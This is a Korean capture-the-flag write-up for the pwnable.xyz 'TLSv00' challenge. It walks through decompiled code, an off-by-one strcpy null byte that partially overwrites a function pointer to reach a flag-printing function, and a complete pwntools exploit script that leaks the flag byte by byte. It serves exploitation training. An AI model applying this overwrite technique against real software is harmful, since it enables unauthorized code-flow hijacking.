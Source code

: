 ```yaml
---
title: "[pwnable.xyz]TLSv00"
date: 2020-1-25
ctf: Pwnable.xyz
layout: post
---
```


64비트 바이너리고 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1번 메뉴다. `/dev/urandom `값을 가지고 키를 생성해주는데 처음에는 기본으로 63으로 인자를 넣어서 생성해준다. 이후에 원하는 사이즈만큼 할당 받을 수 있다.

```c
unsigned __int64 __fastcall generate_key(signed int a1)
{
  signed int i; // [rsp+18h] [rbp-58h]
  int fd; // [rsp+1Ch] [rbp-54h]
  char s[72]; // [rsp+20h] [rbp-50h]
  unsigned __int64 v5; // [rsp+68h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( a1 > 0 && (unsigned int)a1 <= 0x40 )
  {
    memset(s, 0, 72uLL);
    fd = open("/dev/urandom", 0);
    if ( fd == -1 )
    {
      puts("Can't open /dev/urandom");
      exit(1);
    }
    read(fd, s, a1);
    for ( i = 0; i < a1; ++i )
    {
      while ( !s[i] )
        read(fd, &s[i], 1uLL);
    }
    strcpy(key, s);
    close(fd);
  }
  else
  {
    puts("Invalid key size");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

2번 메뉴다. flag파일을 읽어와서 `generate_key` 에서 생성한 키와 xor연산해준다.

```c
int load_flag()
{
  unsigned int i; // [rsp+8h] [rbp-8h]
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/flag", 0);
  if ( fd == -1 )
  {
    puts("Can't open flag");
    exit(1);
  }
  read(fd, flag, 64uLL);
  for ( i = 0; i <= 63; ++i )
    flag[i] ^= key[i];
  return close(fd);
}
```

y를 입력하면 함수 포인터를 실행해준다. 근데 `do_comment` 를 전에 값을 넣어줬다면 그거 return해준다.

```c
__int64 print_flag()
{
  __int64 result; // rax

  puts("WARNING: NOT IMPLEMENTED.");
  result = (unsigned __int8)do_comment;
  if ( !(_BYTE)do_comment )
  {
    printf("Wanna take a survey instead? ");
    if ( getchar() == 'y' )
      do_comment = (__int64 (*)(void))f_do_comment;
    result = do_comment();
  }
  return result;
}
```

off-by-one 취약점이 터진다. 

```
.bss:0000000000202040 ; char key[64]
.bss:0000000000202040 key             db 40h dup(?)           ; DATA XREF: generate_key+E4↑o
.bss:0000000000202040                                         ; load_flag+73↑o
.bss:0000000000202080                 public do_comment
.bss:0000000000202080 ; __int64 (*do_comment)(void)
.bss:0000000000202080 do_comment      dq ?                    ; DATA XREF: print_flag+10↑o
.bss:0000000000202080                                         ; print_flag+40↑w ...
.bss:0000000000202088                 align 20h
.bss:00000000002020A0                 public flag
.bss:00000000002020A0 ; _BYTE flag[64]
.bss:00000000002020A0 flag            db 40h dup(?)           ; DATA XREF: real_print_flag+4↑o
.bss:00000000002020A0                                         ; load_flag+45↑o ...
.bss:00000000002020A0 _bss            ends
```

자세히 보면 key의 크기를 원하는 만큼 지정해서 입력할 수 있다. 근데 여기서 key를 strcpy로 복사하다보니 마지막에 널바이트가 붙어서 1 byte overflow가 난다. 그래서 64만큼 사이즈를 지정하면 do_comment 1바이트를 덮을 수 있다. 그러면 함수 포인터니까 하위 바이트가 널바이트가 된다. 

0xB1F 주소를 갖는 `f_do_comment` 함수 포인터가 하위 바이트가 널바이트가 추가되면 0xB00주소를 갖게 된다. 그러면 0xB00주소를 실행한다. 이 주소에는 `real_print_flag` 함수가 있다. 이를 실행시켜서 값을 뽑아낼 수 있다. 그리고 0과 xor하면 그대로 그 수가 나오는걸 이용해서 풀면 된다. 

> exploit.py

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
#p = remote('svc.pwnable.xyz',30006)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def generate(size):
	sla('>','1')
	sla(':',str(size))

def loadflag():
	sla('>','2')

def printflag(chk): # if 'y' -> f_do_comment(); function pointer
	sla('>','3')
	sla('?',chk);
	#,comment
	#if chk == 'y':
	#	sa(':',comment)
	#else:
	#	return

flag = 'F'
for i in range(1,0x31):
	p = remote('svc.pwnable.xyz',30006)
	printflag('y') # setting function pointer
	generate(i) # strcpy(key, s); -> \x00
	loadflag()
	generate(64) # off-by-one -> null byte overflow = 0xB1F -> 0xB00
	printflag('n') # return do_comment() -> real_print_flag()
	p.recv()
	flag += p.recv(0x31)[i]
	#flag+=p.recvline()[i+1]
	log.info(str(i)+' : '+flag)
	p.close()

# real_print_flag -> 0xB00
# f_do_comment -> 0xB1F
# key ~ do_commnet -> 64

p.interactive()
```

